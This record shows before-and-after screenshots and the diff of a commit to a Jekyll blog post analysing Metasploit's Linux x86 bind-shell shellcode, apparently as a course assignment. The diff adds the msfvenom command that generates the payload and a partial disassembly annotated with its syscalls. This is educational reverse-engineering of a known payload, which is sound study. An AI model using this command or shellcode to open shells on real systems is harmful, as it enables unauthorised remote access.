

Before and after one commit to Minfanger101/sm00v.github.io, a Jekyll site: the page built from _posts/2019-10-19-assignment_1.md, in a window 1280 px wide and 1400 px high, scrolled down 551 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
blog update

````diff
--- a/_posts/2019-10-19-assignment_1.md
+++ b/_posts/2019-10-19-assignment_1.md
@@ -16,13 +16,11 @@ Create a Shell_Bind_TCP shellcode that;
 
 A bind shell is a type of shell in which the system on which the code is run binds a TCP socket that is designated to listen for incoming connections to a specified port and IP address. When a bind shell is used, the system on which the bind shell is executed acts as the listener. When a connection is accepted on the bound and listening socket on the designated port and IP address, a shell will be spawned on the system on which the code is run.
 
-While analyzing shell_bind_tcp shellcode produced by msfvenom, it appears that a total of six syscalls are executed in sequential order. The order goes: socket, bind, listen, accept, dup2, and execve. Each serve a purpose in creating a bind shell. Let's analyze the first function in this payload.
+While analyzing shell_bind_tcp shellcode produced by msfvenom, it appears that a total of six syscalls are executed in sequential order. The order goes: `socket`, `bind`, `listen`, `accept`, `dup2`, and execve. Each serve a purpose in creating a bind shell. Let's analyze the first function in this payload.
 
-`msfvenom -p linux/x86/shell_bind_tcp -f raw| ndisasm -u -` produces
+`msfvenom -p linux/x86/shell_bind_tcp -f raw| ndisasm -u -` produces a payload the size of 78 bytes:
 
 ```
-Payload size: 78 bytes
-
 xor ebx,ebx
 mul ebx
 push ebx
@@ -31,7 +29,7 @@ push ebx
 push byte +0x2
 mov ecx,esp
 mov al,0x66
-int 0x80
+int 0x80 ; socket
 pop ebx
 pop esi
 push edx
@@ -42,19 +40,19 @@ push eax
 mov ecx,esp
 push byte +0x66
 pop eax
-int 0x80
+int 0x80 ; bind
 mov [ecx+0x4],eax
 mov bl,0x4
 mov al,0x66
-int 0x80
+int 0x80 ; listen
 inc ebx
 mov al,0x66
-int 0x80
+int 0x80 ; accept
 xchg eax,ebx
 pop ecx
 push byte +0x3f
 pop eax
-int 0x80
+int 0x80 ; dup2
 dec ecx
 jns 0x32
 push dword 0x68732f2f
````
Also changed, not shown: other parts of _posts/2019-10-19-assignment_1.md (+1 -1 lines).
